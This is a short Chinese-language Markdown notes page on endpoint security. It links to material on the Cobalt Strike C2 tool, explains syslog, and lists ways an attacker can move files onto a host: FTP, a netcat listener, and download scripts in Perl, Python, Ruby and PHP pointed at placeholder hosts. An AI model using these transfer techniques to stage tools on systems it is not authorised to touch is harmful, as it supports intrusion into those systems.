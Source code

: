 # 端点安全

- [端点安全](#端点安全)
  - [C2 工具](#c2-工具)
  - [Syslog](#syslog)

---

## C2 工具

[Cobalt Strike 模块详解&功能详解 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/261298349)

---

## Syslog

> [Syslog - 维基百科，自由的百科全书 (wikipedia.org)](https://zh.wikipedia.org/zh-hans/Syslog)
>
> [关于 syslog 你要知道的一切 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/62793386)

Syslog(System Logging Protocol)是一种用于从各种网络设备以特定格式发送和接收通知消息的标准协议。

这些消息包括时间戳、事件消息、严重性、主机IP地址、诊断等。Syslog可以用于记录设备的日志，监控系统的状态，报告故障或警告，分析网络性能等。

Syslog协议通常用于实现系统监控、故障排除、安全审计以及日志记录和分析。

---

## 下载文件

### 系统自带软件下载

#### FTP

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```bash
ftp 127.0.0.1
username
password
get file
exit
```

当然根据实际情况也可以进入交互终端：

```bash
ftp 192.168.3.2
输入用户名和密码后
lcd E:\file # 进入E盘下的file目录
cd www # 进入服务器上的www目录
get access.log # 将服务器上的access.log下载到E:\file
```

---

#### Netcat

攻击者的电脑上输入:

```bash
cat file | nc -l 1234
```

> 这个命令会将 file 的内容输出到本地的 1234 端口中，然后不论谁连接此端口，file 的内容将会发送到连接过来的 IP。




---

### 编程语言下载脚本

#### Perl

编写 Perl 脚本实现文件下载:

```perl
#!perl
#!/usr/bin/perl
use LWP::Simple;
getstore("http://domain/file", "file");
```

执行脚本文件:

```bash
perl test.pl
```

---

#### Python

```python
#!python
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://domain/file')
localFile = open('local_file', 'w')
localFile.write(u.read())
localFile.close()
```

---

#### Ruby

Ruby 是一个面对对象的语言，Metasploit 框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

```ruby
#!ruby
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}
```

执行脚本:

```bash
ruby test.rb
```

---

#### PHP

PHP 作为一种服务端脚本，也可以实现下载文件这种功能。

```php
#!/usr/bin/php
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

执行脚本文件:

```bash
php test.php
```

---







